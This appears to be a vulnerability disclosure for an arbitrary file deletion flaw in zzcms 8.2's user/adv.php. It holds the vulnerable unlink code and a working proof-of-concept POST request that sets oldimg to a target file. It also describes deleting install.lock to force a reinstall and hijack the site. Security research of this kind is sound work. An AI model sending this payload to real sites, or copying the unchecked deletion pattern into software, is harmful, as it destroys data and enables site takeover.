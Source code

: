 # user/adv.php

##Edition:

zzcms 8.2

`/user/adv.php`

![][1]
### Code 

```
if ($oldimg<>$img){
		$f="../".$oldimg;
		if (file_exists($f)){
		unlink($f);		
		}
}


```
### Rows: 80

### Harm

Allows attackers to delete files arbitrarily

### Cause the cause

Through the code can know that we  control oldimg.

![][2]

The statement makes judgments on the account identities. If you want to exploit the vulnerability, the identity should be the company when you register the information.

Create flag.php file in test environment

![][3]

Then burp grab post request to change oldimg to flag.php

![][4]

Flag.php file successfully deleted

![][5]


## poc

```
POST /user/adv.php?action=modify

POST:

adv=123&advlink=%2Fzt%2Fshow.php%3Fid%3D2&company=%E4%BD%A0%E5%A5%BD%E5%95%8A&oldimg=flag.php&img=&Submit22=%E4%BF%AE+%E6%94%B9

```

An attacker can use this vulnerability to delete any file, such as deleting install.lock for CMS reinstall and hijacking the website database.

## Solution

Can be filtered through the input of control parameters, strictly control the type of parameters, suffixes



  [1]: ./images/1.png "1"
  [2]: ./images/2.png "2"
  [3]: ./images/3.png "3"
  [4]: ./images/4.png "4"
  [5]: ./images/5.png "5"



